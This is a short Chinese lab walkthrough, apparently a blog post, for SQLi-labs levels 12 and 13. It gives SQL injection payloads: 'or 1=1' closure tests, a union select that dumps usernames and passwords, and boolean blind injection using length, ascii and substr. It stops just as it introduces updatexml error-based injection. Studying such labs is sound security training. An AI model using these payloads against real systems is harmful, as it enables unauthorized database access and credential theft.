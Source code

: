 

<img src="https://i-blog.csdnimg.cn/blog_migrate/54faa81aab846553a84e566973136c1c.png" alt="" style="max-height:206px; box-sizing:content-box;" />


## Less-12

通过报错判断

然后结合万能密码

```cobol
1") or 1=1 -- +
```

正常注入即可

```scss
1") union select 1,group_concat(id,'-------',username,'--------',password)from security.users -- +
```

## Less-13 报错注入 updatexml()

判断闭合

```vbnet
1') or 1=1 -- +
```

这道题 回显 只有两个 一个是正确 一个是错误 所以应该可以使用布尔注入

### 布尔注入

```csharp
1') or length((select database()))=8-- +
```

这里和之前不一样

之前是

```csharp
1') and length((select database()))=8-- +
```

因为首先我们无法得到username和password 所以第一个就是假

如果要让语句为真 就要用

假 or 真 = 真

然后就通过 ascii() substr() length() 交替爆破即可

### 报错注入

这里还可以使用另一个方式 报错注入

通过

updatexml() concat()函数来实现
